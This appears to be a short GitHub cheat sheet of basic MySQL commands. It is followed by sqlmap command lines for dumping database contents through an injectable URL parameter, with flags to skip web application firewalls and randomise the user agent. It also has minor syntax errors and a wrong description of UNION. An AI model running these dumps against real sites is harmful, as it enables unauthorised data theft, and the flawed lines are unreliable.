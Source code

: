 
						<h1>SQL</h1>


<h3>Basic Commands Mysql</h3>
`create database d1;`	**TO CREATE DATABASE
`show database; 			  `		**TO SHOW ALL DATABASES
`use database-name;                       `    		**TO USE DATABASE
`drop database d1;		       	  `		**TO DELETE DATABASE
`create table t1(name char(20), age int );`		**TO CREATE TABLE WHERE name, age IS COLUMN RESPECTED DATA TYPE char, int 
`insert t1 values("name",20);             ` 	  	**TO INSERT VALUES INTO TABLE 
`show tables;			       	  `		**TO SHOW TABLES	
`delete from t1;                          `             **TO DELETE ALL STORED DATA IN TABLE
`drop table  t1, t2;                      `	        **TO DELETE TABLE
`alter table t1 add Column-Name char(20); `		**TO ADD NEW COLUMN IN TABLE
`alter table t1 drop Column-Name;         `		**TO DELETE COLUMN IN TABLE


<h3>Advance Commmands Mysql</h3>
`set password for user@localhost=password('password');` **TO SET OR RESET PASSWORD
`commit;`						**TO MAKE CHANGES PUBLICLY OF DATABASE'S DATA
`update t1 SET name='test' where age=20;              ` **TO CHANGE DATA IN COLUMN

**Some Operation Mysql**
* Union - Operation to fetch common output between two queries. but the number of columns and the data type of column's must be same to the both side of UNION
  `select name,age from t1 union select nickname, id from t2;`





					<h1>SQL Injection</h1>


<h5>SQLmap Usage</h5>

**TO FETCH ONLY COLUMN'S DATA
`sqlmap - u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump` 

**TO FETCH ONLY ALL COLUMN & ITS DATA
`sqlmap - u "url?prm=" -p prm -D dbname -T table_name  --dump`

**TO FETCH ENTIRE DATABASE'S DATA 		     
`sqlmap - u "url?prm=" -p prm -D dbname  --dump`

**TO FETCH ALL DATABASES
`sqlmap - u "url?prm=" -p prm --dbs  --dump` 
or use --dump-all instead of --dump to fetch all databases's all tables and columns  


<h5>Extra Parameter to Optimise SQLmap's Performance</h5>
* Parameters    **--method GET,   --code 200, --skip-waf, --random-agent, --threads 10 -o **
* Optimised Url **sqlmap -u "url?prm=" -p prm -D dbname -T table_name -C column_name --dump --method GET --code 200 --skip-waf --random-agent --threads 10 -o**

